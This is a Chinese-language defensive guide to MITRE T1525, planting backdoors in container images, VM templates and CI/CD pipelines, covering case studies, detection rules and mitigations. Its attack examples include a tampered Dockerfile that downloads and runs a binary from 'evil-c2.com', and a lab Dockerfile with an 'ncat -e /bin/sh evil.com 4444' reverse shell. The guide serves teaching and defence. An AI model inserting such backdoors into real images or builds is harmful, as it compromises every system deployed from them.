

# T1525 - 植入内部镜像

## 一句话通俗理解

> 想象一下，公司食堂的中央厨房被内鬼动了手脚——他往每天给所有分店配送的"标准调料包"里掺了慢性毒药。以后每开一家新分店、每用一次调料，毒药就自动进来了。植入内部镜像就是这个套路：攻击者往企业内部容器镜像、VM模板、AMI黄金镜像里植入后门，以后每次部署新实例都自带恶意代码。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 篡改云环境的基础镜像（容器镜像/VM模板/AMI）实现规模化持久化 |
| 为什么危险？ | 一个被污染的镜像会扩散到成百上千个新实例，难以根治 |
| 谁需要关心？ | DevOps团队、云安全团队、容器平台管理员 |
| 你的第一步防御 | 镜像仓库开启不可变模式和签名验证 |
| 如果只做一件事 | 对所有基础镜像做hash基线，部署前校验签名 |

## 难度等级

⭐⭐⭐ **高级**：需要云/容器平台运维知识，以及镜像仓库写权限

**前置知识要求**：
- 理解容器镜像分层结构和Dockerfile构建流程
- 熟悉VM模板/AMI/黄金镜像的创建和分发机制
- 了解镜像签名和验证原理（Notary/cosign）
- 知道CI/CD流水线如何使用基础镜像

## 前置知识检查

在读下面的内容前，确认你能回答这些问题：

- [ ] 容器镜像的"分层"是什么意思？为什么改一层会影响所有依赖它的镜像？
- [ ] 企业常用的"黄金镜像"（Golden Image）是什么？怎么分发到各个云区域？
- [ ] `docker pull` 时如何验证镜像没被篡改？
- [ ] 为什么说"污染一个基础镜像等于黑掉所有下游实例"？

> 如果有3个以上答不上来，建议先补一下云原生镜像管理基础再继续。

## 技术描述

### 用人话说：内部镜像是什么？

企业云环境里有大量"模板镜像"——就像食堂的**标准调料包**。开发团队不每次都从头搭环境，而是基于一个"基础镜像"快速创建新实例：

- **容器镜像**：如 `ubuntu:20.04`、`python:3.9-slim`，存在镜像仓库（Harbor/ACR/ECR）
- **VM模板**：VMware模板、AWS AMI、Azure镜像，用于快速部署虚拟机
- **黄金镜像**：企业定制的基础镜像，预装了监控agent、安全agent、标准组件

**进阶理解**：这些镜像在CI/CD流水线里被反复引用——每次部署微服务、扩容、灾难恢复都从基础镜像拉起。攻击者只需在**一个基础镜像**里植入后门，所有下游实例都会"遗传"恶意代码。这比逐个入侵实例高效得多。

### 攻击者如何植入后门

#### 1. 容器镜像污染

攻击者获取镜像仓库写权限后，重新构建并推送同名镜像：

```dockerfile
# 原始基础镜像 dockerfile
FROM ubuntu:20.04
RUN apt-get update && apt-get install -y python3

# 攻击者篡改后的dockerfile（植入后门）
FROM ubuntu:20.04
RUN apt-get update && apt-get install -y python3
# 植入后门：伪装成系统更新agent
RUN curl -s http://evil-c2.com/agent -o /usr/local/bin/.update && \
    chmod +x /usr/local/bin/.update
# 设置启动时执行
ENTRYPOINT ["/usr/local/bin/.update", "--daemon"]
```

所有基于此镜像构建的下游镜像都会继承后门，且后门在容器启动时自动执行。

#### 2. VM模板/AMI污染

攻击者修改VMware模板或AWS AMI：
- 在模板系统的启动脚本里植入后门
- 修改系统服务（如cron/systemd）加载恶意载荷
- 替换系统二进制（如sshd）为木马版本

#### 3. CI/CD流水线投毒

更隐蔽的方式：攻击者篡改CI/CD流水线的Dockerfile或构建脚本，让每次自动构建都植入后门——即便基础镜像被清理，下次构建又会重新污染。

## 子技术列表

T1525为父技术，暂无MITRE官方子技术分类。但根据攻击载体可分：

| 变体 | 平台 | 说明 |
|------|------|------|
| 容器镜像投毒 | Container | 篡改Docker/OCI镜像 |
| VM模板投毒 | IaaS | 篡改AMI/VMware模板/Azure镜像 |
| CI/CD流水线投毒 | CI/CD | 篡改构建脚本植入后门 |

## 攻击流程



## 真实案例

### 案例1：Codecov供应链事件波及容器镜像（2021）

- **时间**：2021年1月-4月
- **目标**：使用Codecov代码覆盖工具的开发团队
- **攻击组织**：未归因（疑似国家级APT）
- **手法**：攻击者篡改Codecov的bash uploader脚本（CI/CD常用工具），使其在执行时泄露环境变量（含云凭证、Token）。部分受害者的CI/CD凭证被盗后，攻击者进一步访问其镜像仓库，篡改内部容器镜像植入后门。后门在容器启动时回连C2。
- **影响**：Codecov披露后，估计数千个组织的CI/CD流程受影响，部分组织的内部镜像被污染
- **数据来源**：Codecov官方公告 + Rapid7事后分析（一手厂商报告）

> 📚 **深入了解**：Rapid7《Codecov Supply Chain Attack Analysis》详细分析了CI/CD凭证泄露如何导致镜像仓库被入侵

### 案例2：TeamTNT投毒Docker Hub公开镜像（2020-2022）

- **时间**：2020年4月-2022年10月
- **目标**：使用Docker Hub公开镜像的开发者
- **攻击组织**：TeamTNT（挖矿组织，专攻容器环境）
- **手法**：TeamTNT在Docker Hub注册多个伪装成常用工具的镜像仓库（如假的`alpine-tools`、`python-builder`），镜像里预埋挖矿脚本和SSH后门。开发者pull这些镜像构建自己的应用时，挖矿程序随容器启动自动运行。部分受害者基于这些污染镜像构建了内部基础镜像，导致企业内部镜像仓库被二次污染。
- **影响**：数千个Docker Hub账户拉取了污染镜像，TeamTNT累计挖矿获利超50万美元
- **数据来源**：Aqua Security《TeamTNT追踪报告》（一手厂商报告）

### 案例3：UNC3886篡改VMware ESXi镜像持久化（2022-2023）

- **时间**：2022年9月-2023年3月
- **目标**：使用VMware ESXi虚拟化平台的企业和政府
- **攻击组织**：UNC3886（中国背景APT，Mandiant归因）
- **手法**：UNC3886通过0day入侵ESXi主机后，修改ESXi的VIB（vSphere Installation Bundle）包——这是ESXi系统的"基础镜像"组件。攻击者植入自定义VIB包含后门模块，即便管理员重装ESXi或打补丁，恶意VIB仍会随系统更新被重新安装。后门通过伪造VMware驱动模块实现持久化，极难通过常规手段检测。
- **影响**：多家国防承包商和政府机构ESXi环境被长期潜伏
- **数据来源**：Mandiant M-Trends 2023报告（一手厂商报告）

> 🎯 **真实攻击**：Mandiant公开了UNC3886的VIB持久化技术细节，是研究VM镜像投毒的标杆案例

## 红队视角

### 可持续利用手段

| 手段 | 说明 | 检测难度 |
|------|------|---------|
| 镜像分层继承 | 后门放在基础层，所有下游镜像继承 | 高 |
| CI/CD自动重建 | 即便清理镜像，下次构建又污染 | 极高 |
| VM模板VIB植入 | ESXi系统级VIB，重装也保留 | 极高 |
| 镜像签名绕过 | 窃取签名密钥给恶意镜像签名 | 高 |

### 可复制性分析

| 维度 | 评分 | 说明 |
|------|------|------|
| 技术门槛 | ⭐⭐⭐⭐ | 需要云平台运维知识和仓库权限 |
| 工具可用性 | ⭐⭐⭐ | docker/packer等工具易得 |
| 检测规避 | ⭐⭐⭐⭐⭐ | 一旦污染，极难根除 |
| 跨平台适用 | ⭐⭐⭐⭐ | 容器/VM/云平台通用 |

## 蓝队视角

### 用人话说：怎么发现"调料包被下毒"？

镜像仓库就像调料仓库——正常情况下每个调料瓶都有批次号、生产日期、质检章。防御核心是**签名验证+不可变存储+部署前校验**：所有镜像必须签名，部署前校验签名，仓库开启不可变模式防止覆盖推送。

### 检测规则

#### 容器镜像：监控仓库push事件

```yaml
# Sigma风格规则：检测镜像仓库异常push
title: 容器镜像仓库异常推送
logsource:
    product: container
    service: registry
detection:
    selection_overwrite:
        action: push
        tag: latest  # 覆盖latest标签可疑
    selection_offhours:
        action: push
        time: offhours  # 非工作时间push
    condition: selection_overwrite or selection_offhours
level: medium
```

```bash
# Harbor仓库：监控镜像覆盖事件
# 查看近期push日志
curl -k -X GET "https://harbor.company.com/api/v2/audit-logs?operation=create" \
  -H "Authorization: Bearer $TOKEN" | jq '.[] | select(.resource_type=="artifact")'

# 对比镜像hash基线
docker pull internal-registry/app:latest
docker inspect --format='{{.Id}}' internal-registry/app:latest
# 与基线hash比对
```

#### VM模板：监控AMI/模板变更

```bash
# AWS：监控AMI创建和共享事件（CloudTrail）
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=EventName,AttributeValue=CreateImage \
  --start-time 2026-06-01T00:00:00Z

# 检查AMI是否有快照被修改
aws ec2 describe-images --owners self --query \
  'Images[?CreationDate>`2026-06-01`].[ImageId,Name,CreationDate]'
```

#### 镜像签名验证（cosign）

```bash
# 部署前验证镜像签名
cosign verify --key cosign.pub internal-registry/app:v1.0
# 如果签名验证失败，拒绝部署
```

### 检测建议分层

| 层次 | 检测点 | 工具 |
|------|--------|------|
| 网络层 | 容器实例启动后异常出网 | Cilium/Calico网络策略 |
| 主机层 | 容器内可疑进程/异常二进制 | Falco/Tetragon |
| 应用层 | 镜像仓库变更/CI/CD日志异常 | Harbor审计日志 |

## 避坑指南

| 坑 | 说明 | 正确做法 |
|----|------|---------|
| 只扫描新镜像 | 忽略已存在的镜像被覆盖更新 | 监控所有push事件含覆盖 |
| 忽略VM模板 | 只查容器镜像忽略AMI/模板 | VM模板也要hash基线 |
| 信任latest标签 | latest被覆盖后下游全部受影响 | 禁用latest，用版本号 |
| 不验证签名 | 只检查镜像名不验证签名 | 强制cosign/Notary签名验证 |
| 忘记CI/CD | 清理了镜像但CI/CD下次又污染 | CI/CD流水线也要做基线 |

## 检测建议

### 网络层检测

- 容器实例启动后立即出网到非常用IP
- 镜像仓库来自非白名单IP的push操作
- CI/CD runner异常网络行为

### 主机层检测（最重要）

1. **Falco规则**（容器运行时检测）：
```yaml
# 检测容器启动后立即建立反向连接
- rule: Container Reverse Shell
  desc: 检测容器内反向shell
  condition: evt.type=execve and container and proc.name in (bash, sh, nc)
  output: "Container reverse shell (user=%user.name container=%container.name)"
  priority: WARNING
```

2. **镜像扫描**：
```bash
# Trivy扫描镜像已知漏洞+后门特征
trivy image --severity HIGH,CRITICAL internal-registry/app:v1.0

# 对比镜像层hash基线
docker history internal-registry/app:v1.0 --no-trunc
```

### 应用层检测

- 镜像仓库开启不可变标签（immutable tag）
- CI/CD流水线签入审批制
- 镜像签名强制验证

## 缓解措施

| 措施 | 说明 | 实施难度 |
|------|------|---------|
| 镜像签名 | 用cosign/Notary对所有镜像签名 | 中 |
| 不可变标签 | 禁止覆盖已存在的标签 | 低 |
| 基础镜像hash基线 | 记录所有基础镜像hash，部署前校验 | 中 |
| 镜像仓库最小权限 | 限制push权限仅给CI/CD服务账号 | 低 |
| VM模板版本控制 | 模板变更需审批，保留历史版本 | 中 |
| 部署前安全扫描 | Trivy/Clair扫描后才允许部署 | 中 |
| CI/CD流水线加固 | 流水线脚本版本控制+审批 | 高 |

## 动手实验

### 实验1：检测镜像被篡改（隔离环境）

```bash
# 1. 拉取原始镜像并记录hash
docker pull nginx:alpine
ORIGINAL_HASH=$(docker inspect --format='{{.Id}}' nginx:alpine)
echo "原始hash: $ORIGINAL_HASH"

# 2. 模拟攻击者篡改（基于此镜像构建含后门版本）
cat > Dockerfile.evil << 'EOF'
FROM nginx:alpine
RUN apk add --no-cache ncat
RUN echo '#!/bin/sh' > /entrypoint.sh
RUN echo 'ncat -e /bin/sh evil.com 4444 &' >> /entrypoint.sh
RUN echo 'nginx -g "daemon off;"' >> /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
EOF
docker build -t nginx:alpine -f Dockerfile.evil .

# 3. 验证hash变化
TAMPERED_HASH=$(docker inspect --format='{{.Id}}' nginx:alpine)
echo "篡改后hash: $TAMPERED_HASH"

# 4. 检测差异
docker history nginx:alpine --no-trunc | head -20
# 预期看到异常的ncat安装和entrypoint.sh

# 清理
docker rmi nginx:alpine
```

**预期输出**：
```
原始hash: sha256:2bcbf...
篡改后hash: sha256:a1b3c...  # hash变化
IMAGE          CREATED        CREATED BY                                      SIZE
a1b3c...       1 minute ago   /bin/sh -c chmod +x /entrypoint.sh              12B
b2c4d...       1 minute ago   /bin/sh -c echo 'nginx -g "daemon off;"' >>...  40B
```

### 专用工具表

| 工具 | 平台 | 用途 |
|------|------|------|
| cosign | 容器 | 镜像签名验证（Sigstore） |
| Trivy | 容器 | 镜像漏洞+后门扫描 |
| Falco | 容器 | 运行时行为检测 |
| Harbor | 容器 | 企业镜像仓库含审计 |
| Packer | VM | VM模板构建工具 |
| Notary | 容器 | 镜像签名（Docker官方） |

## 术语解释

| 术语 | 解释 |
|------|------|
| 容器镜像 | 容器运行的只读模板，含应用和依赖 |
| 黄金镜像 | 企业定制的基础镜像，预装标准组件 |
| AMI | Amazon Machine Image，AWS的VM模板 |
| VIB | vSphere Installation Bundle，ESXi系统包 |
| 镜像分层 | 容器镜像由多个只读层叠加而成 |
| 不可变标签 | 镜像仓库功能，禁止覆盖已存在标签 |
| cosign | Sigstore项目的镜像签名工具 |

## 参考资料

### 📚 深入了解（MITRE官方）
- [MITRE ATT&CK T1525](https://attack.mitre.org/techniques/T1525/) - 官方技术页面

### 🔧 动手试试
- [Sigstore cosign文档](https://docs.sigstore.dev/cosign/) - 镜像签名工具
- [Trivy文档](https://aquasecurity.github.io/trivy/) - 镜像扫描工具
- [Falco规则库](https://github.com/falcosecurity/rules) - 容器运行时检测

### 🎯 真实攻击
- [Codecov事件报告](https://about.codecov.io/security-update-1-2021/) - 官方供应链事件公告
- [Aqua TeamTNT报告](https://blog.aquasec.com/) - 容器镜像投毒案例
- [Mandiant M-Trends 2023](https://www.mandiant.com/resources/blog/m-trends-2023) - UNC3886 VIB持久化

## 版本历史

| 版本 | 日期 | 变更 |
|------|------|------|
| v3.1 | 2026-07-10 | 从跨战术污染重写为持久化(TA0003)正确内容 |
